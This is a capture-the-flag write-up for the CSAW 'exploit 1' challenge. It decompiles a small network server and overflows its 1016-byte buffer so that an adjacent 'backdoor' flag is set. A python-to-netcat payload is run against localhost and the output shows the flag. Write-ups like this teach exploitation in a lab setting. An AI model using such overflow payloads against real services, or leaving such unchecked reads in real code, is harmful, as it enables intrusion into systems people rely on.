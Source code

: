 # exploit 1

Let's take a look at the binary:

```
$	file exploit1 
exploit1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c7646dc29ce50cfdf6d7acaf5e8ebfc88401b7e1, not stripped
```

So we can see it is a 32 bit elf. When we pop it into ida and look at the main function, we can see that the elf is a server that listens on port `31337`

```
  if ( getaddrinfo("0.0.0.0", "31337", (const struct addrinfo *)&v12, &v11) )
```
 
 So the function that runs when a new connection is established is `handle`, so let's take a look at that function's psuedocode.
 

```
void __cdecl handle(int newsock)
{
  char buffer[1016]; // [sp+14h] [bp-404h]@1
  int backdoor; // [sp+40Ch] [bp-Ch]@1

  backdoor = 0;
  memset(buffer, 0, sizeof(buffer));
  send(newsock, "Welcome to CSAW CTF.", 0x15u, 0);
  recv(newsock, buffer, 0x3FCu, 0);
  buffer[1015] = 0;
  if ( backdoor )
  {
    fd = (int)fopen("./key", "r");
    __isoc99_fscanf(fd, "%s\n", buffer);
    send(newsock, buffer, 0x200u, 0);
  }
  close(newsock);
}
```

So looking at this we can see that in order to pass the challenge, we need to set the integer `backdoor` equal to anything other than `0`. We can do this using this buffer overflow vulneabillity:

```
  recv(newsock, buffer, 0x3FCu, 0);
```

This line of code will read a maximum of `0x3fc` (1020 in decimal) into the buffer `buffer`, which can only hold 1016 bytes. So we can just write 1020 bytes to that buffer, which will be more than enough to overwrite the value of `backdoor`. To get this to work locally, I had to generay a text file `key` with the flag in it since that is what it reads from:

terminal 1:
```
$	ls
exploit1  key
$	./exploit1
```

terminal 2:
```
python -c 'print "0"*1020' | nc 127.0.0.1 31337
Welcome to CSAW CTF.flag{7c1fbb502632bffa6e62ba6fa847681f}00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

Just like that, we got the flag.
